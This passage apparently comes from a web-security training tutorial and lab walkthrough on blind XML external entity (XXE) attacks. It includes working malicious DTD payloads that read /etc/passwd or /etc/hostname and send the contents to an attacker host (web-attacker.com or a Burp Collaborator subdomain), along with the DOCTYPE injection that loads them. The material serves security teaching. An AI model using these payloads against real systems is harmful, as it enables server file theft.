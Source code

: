 This DTD carries out the following steps:

- Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
- Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
- Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

```http://web-attacker.com/malicious.dtd```

Finally, the attacker must submit the following XXE payload to the vulnerable application:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the /etc/passwd file is transmitted to the attacker's server.

### Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

**Solution**
1. Using Burp Suite Professional, go to the Collaborator tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Place the Burp Collaborator payload into a malicious DTD file:
    ```
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
    %eval;
    %exfil;
    ```
4. Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
5. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
6. Insert the following external entity definition in between the XML declaration and the *stockCheck* element:
    ```
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
    ```
7. Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
8. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the */etc/hostname* file.

## Exploiting blind XXE to retrieve data via error messages

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

```